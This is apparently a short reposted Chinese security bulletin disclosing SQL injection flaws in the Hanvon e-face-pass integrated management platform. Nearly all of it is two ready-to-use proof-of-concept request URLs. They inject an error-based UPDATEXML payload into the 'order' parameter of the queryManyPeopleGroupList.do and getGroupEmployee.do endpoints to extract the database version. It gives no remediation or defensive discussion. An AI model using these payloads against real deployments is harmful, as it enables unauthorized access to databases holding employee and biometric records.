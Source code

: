 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU2NDY2OTU4Nw==&mid=2247521663&idx=1&sn=1a7aa58916d280391fd2526ffe2c169f

#  护网情报 ｜汉王e脸通综合管理平台SQL注入漏洞  
小浪  船山信安   2025-07-07 15:40  
  
queryManyPeopleGroupList接口SQL注入  
  
POC:  

```
/manage/authMultiplePeople/queryManyPeopleGroupList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```

  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicP9UCoHxicWVyZ3PTr9kjJFMxVqEg0C3W4R2hAkibUeavWTSBnibb3KnOLkbRbCKZ7klSHb7VefeyrUQ/640?wx_fmt=jpeg "")  
  
  
getGroupEmployee  SQL注入  

```
/manage/authMultiplePeople/getGroupEmployee.do?recoToken=67mds2pxXQb&page=1&pageSize=10&groupId=1&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```

  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicP9UCoHxicWVyZ3PTr9kjJFMltscRw7MZ8HrKbwvKUCmjpyY1icYA8hV1VF3nwTqY5UanEj2picLUnicg/640?wx_fmt=jpeg "")  
  
  
  
